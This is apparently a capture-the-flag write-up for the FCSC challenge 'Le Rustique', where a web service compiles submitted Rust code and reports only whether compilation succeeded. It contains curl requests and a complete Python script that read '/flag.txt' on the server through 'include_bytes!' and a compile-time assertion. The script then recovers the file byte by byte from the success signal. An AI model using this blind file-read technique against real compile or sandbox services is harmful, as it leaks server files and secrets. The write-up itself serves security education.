 # Le Rustique

> On vous demande d'auditer cette solution de vérification syntaxique en Rust.
> 
> Lien : http://challenges2.france-cybersecurity-challenge.fr:6005/

Well ... if we can compile Rust, we'll first try to include some file at compile-time with the [`include_bytes!()` macro](https://doc.rust-lang.org/core/macro.include_bytes.html)

![First glance](first_glance.png "At first glance, we can compile anything.")

```
$ curl 'http://challenges2.france-cybersecurity-challenge.fr:6005/check' -H 'Content-Type: application/json' --data '{"content":"include_bytes!(\"/flag.txt\");"}' 
{"result":0}
curl 'http://challenges2.france-cybersecurity-challenge.fr:6005/check' -H 'Content-Type: application/json' --data '{"content":"ERROR"}' 
{"result":1}
```

This is a webapp that compiles Rust code and returns a boolean to indicate if compilation was successful or not.

We know `access to sensitive data + boolean output = blind retrieval` so we think about how to setup a blind attack so we can read the content of `flag.txt`. For this we need:

- read data (`include_bytes!` is fine)
- select one byte of data and compare it to a byte we control
- fail the compilation when the two bytes are not equal

As `include_bytes!()` macro does not return any compilation error, we know we can load some bytes from `/flag.txt`. Now, we have to find a way to make the compilation fail whenever we want, and only if two bytes aren't equal.

There's an `assert!()` macro which does exactly what we want **but** this is executed at run-time, it's of no use for us now. After a bit of research I came across a crate called `static_assertions` which ships with a `static_assert!()` macro, which is static, so it's executed at compile-time ! Problem : the crate is not loaded and we can't load-it with `extern crate`, it's probably not an installed crate.

Hopefully, the author of `static_assertions` crate wrote [a post](https://nikolaivazquez.com/posts/programming/rust-static-assertions/) that explains everything it does, with code examples.

One of those examples is:

```rust
macro_rules! const_assert {
    ($condition:expr) => {
        #[deny(const_err)]
        #[allow(dead_code)]
        const ASSERT: usize = 0 - !$condition as usize;
    }
}
```

This macro enables us to write:

```rust
const_assert!(b'a' == b'a');
const_assert!(b'a' == b'b'); # Compilation error
```

Now we only have to select a character of `/flag.txt` data and compare it to our charset (`FCSC{[0-9a-z]+}`). I wrote a Python script to do just that automatically.

```python
#!/usr/bin/env python3
import string
import requests

PAYLOAD = """
macro_rules! const_assert {
    ($condition:expr) => {
        #[deny(const_err)]
        #[allow(dead_code)]
        const ASSERT: usize = 0 - !$condition as usize;
    }
}

// Load flag bytes from /flag.txt
const KEY: &'static [u8] = include_bytes!("/flag.txt");

// Assert one byte equals one other byte we control
const_assert!(KEY[XXX] == b'YYY');
"""
CHARSET = string.digits + string.ascii_lowercase + "}"
PLAIN = "FCSC{"

url = 'http://challenges2.france-cybersecurity-challenge.fr:6005/check'
ua = requests.Session()

i = len(PLAIN)

while True:
    for c in CHARSET:
        r = ua.post(url, json={
            # XXX > index of the target char
            # YYY > character to compare the target char to
            "content": PAYLOAD.replace('XXX', str(i)).replace('YYY', c)
        })
        print("{}{}".format(PLAIN, c), end="\r")

        # If no compilation error
        if '0' in r.text:
            # we found a char
            PLAIN = PLAIN + c
            break
    
    if PLAIN[-1] == '}':
        print('\n[!] FINISHED.')
        break

    i = i + 1
```